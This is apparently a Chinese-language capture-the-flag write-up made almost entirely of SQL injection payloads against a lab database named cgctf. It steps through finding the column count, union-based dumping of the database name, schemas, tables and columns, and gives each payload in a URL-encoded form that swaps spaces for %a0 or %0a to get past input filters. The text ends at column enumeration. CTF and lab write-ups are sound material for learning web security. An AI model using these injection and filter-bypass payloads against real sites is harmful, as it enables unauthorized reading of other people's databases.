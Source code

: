 判断列数

```
1' order by 4 --+
```

```
1%27%0aorder%0aby%0a1%a0||%27
```



爆库

```
1' union select 1,database(),3,4 --+
```

```
1%27%a0union%a0select%a01,database(),3,4%a0||%27
```

发现database名为cgctf



```
1' and 1=2 union select 1,(select group_concat(schema_name) from information_schema.shemata),3,4 --+
```

```
1%27%a0and%a01=2%a0union%a0select%a01,(SELECT%a0GROUP_CONCAT(SCHEMA_NAME)%a0FROM%a0information_schema.SCHEMATA),3,4%a0and%a0%271%27=%271
```



爆表：

```
1'and 1=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='cgctf' --+
```

```
1%27%a0and%a01=2%a0union%a0select%a01,group_concat(table_name),3,4%a0from%a0information_schema.tables%a0where%a0table_schema=%27cgctf%27%a0and%a0%271%27=%271
```



爆列：

```
1' and 1=2 union select 1,column_name,3,4 from information_schema.columns where table_name='pcnumber' #
```

```
1%27%a0and%a01=2%a0union%a0select%a01,column_name,3,4%a0from%a0information_schema.columns%a0where%a0table_name=%27pcnumber%27%a0||%27
```


